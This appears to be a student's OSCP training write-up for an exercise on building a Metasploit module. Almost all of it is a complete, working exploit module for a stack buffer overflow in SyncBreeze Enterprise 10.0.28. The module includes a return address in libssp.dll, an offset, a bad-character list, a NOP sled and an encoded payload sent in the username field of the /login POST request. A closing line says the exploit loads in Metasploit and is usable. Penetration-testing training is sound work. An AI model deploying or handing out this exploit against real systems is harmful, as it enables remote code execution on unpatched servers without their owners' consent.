


### 22.4.1.1 Exercise
#### 1. Create a new Metasploit module for your SyncBreeze exploit

Used the following code:

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::Seh

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'SyncBreeze Enterprise Buffer Overflow',
      'Description'    => %q(
        Port of OSCP SyncBreeze 10.0.28 Exploit for MSF
      ),
      'License'        => MSF_LICENSE,
      'Author'         => [ 'Mr. Dixon'],
      'References'     =>
        [
          [ 'EDB', '42886' ]
        ],
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'thread'
        },
      'Platform'       => 'win',
      'Payload'        =>
        {
          'BadChars' => "\x00\x0a\x0d\x25\x26\x2b\x3d",
          'Space'    => 500
        },
      'Targets'        =>
        [
          [ 'SyncBreeze Enterprise 10.0.28',
            {
              'Ret' => 0x10090c83, # JMP ESP -- libssp.dll
              'Offset' => 780
            }]
        ],
      'Privileged'     => true,
      'DisclosureDate' => 'Jul 31 2020',
      'DefaultTarget'  => 0))

    register_options([Opt::RPORT(80)])
  end

  def check
    res = send_request_cgi(
      'uri'    =>  '/',
      'method' =>  'GET'
    )

    if res && res.code == 200 
      product_name = res.body.scan(/(Sync Breeze Enterprise v[^<]*)/i).flatten.first
      if product_name =~ /10\.0\.28/
        return Exploit::CheckCode::Appears
      end
    end

    return Exploit::CheckCode::Safe
  end
    def exploit
        print_status("Generating exploit...")
        exp = rand_text_alpha(target['Offset'])	# Offset padding
        exp << [target.ret].pack('V')	# EIP
        exp << rand_text(4)		# Space between EIP and Code
        exp << make_nops(10) # NOP sled to make sure we land on jmp to shellcode
        exp << payload.encoded
        print_status("Sending exploit...")
        send_request_cgi(
            'uri' => '/login',			# URL for login
            'method' => 'POST',			# Uses HTTP post
            'connection' => 'keep-alive',
            'vars_post' => {
                'username' => "#{exp}", # Sends BoF string
                'password' => "fakepsw"
                }
        )
        handler
        disconnect
    end
end
```

Exploit shows up in MSF and is useable:


